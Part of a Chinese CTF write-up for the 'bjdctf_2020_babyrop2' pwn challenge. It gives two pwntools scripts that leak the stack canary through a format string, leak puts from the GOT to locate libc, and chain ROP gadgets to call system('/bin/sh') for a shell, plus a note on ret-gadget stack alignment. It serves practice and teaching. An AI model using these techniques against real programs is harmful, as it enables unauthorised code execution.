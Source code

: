 ```python
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
Liboffset = puts_addr - Lib.dump('puts')
sys_addr = Liboffset + Lib.dump('system')
bin_sh_addr = Liboffset + Lib.dump('str_bin_sh')
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(sys_addr)+p64(elf.sym['main'])
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

```python
#本地脚本
from pwn import *
context.log_level = 'debug'
#io = process('./bjdctf_2020_babyrop2')
io = gdb.debug('./bjdctf_2020_babyrop2','break vuln')
elf = ELF('./bjdctf_2020_babyrop2')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')

io.sendlineafter(b"I'll give u some gift to help u!\n",b'%7$p')
io.recvuntil(b'0x')
canary = int(io.recvline(16),16)    #recv(),15或者16都可以,后续函数会自动去除的

print('canary->',hex(canary))
padding = b'A'*0x18+p64(canary)+b'A'*8
payload = padding + p64(0x0000000000400993) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
io.sendlineafter(b'Pull up your sword and tell me u story!',payload)
io.recvuntil(b'\n')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))
Liboffset = puts_addr - Lib.sym['puts']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
payload = padding+p64(0x0000000000400993)+p64(bin_sh_addr)+p64(0x00000000004005f9)+p64(sys_addr)
io.sendlineafter(b"Pull up your sword and tell me u story!",payload)
io.interactive()
```

由于我本地环境是`Wsl-Ubuntu-22.04`会出现本地打不通的情况,所以需要在调用`system`前加上`ret`即`+p64(0x00000000004005f9)`填充内存空间,具体原因参考如下

```
环境差异：
•	libc版本不同：不同版本的glibc库在处理函数调用时可能存在差异，如系统调用、格式化字符串解析、堆管理等。例如，上述信息提及，glibc 2.27及更高版本的system()函数内部实现可能使用了xmm寄存器，要求内存对齐，如果本地环境与远程环境的glibc版本不一致，可能导致利用失败。
```
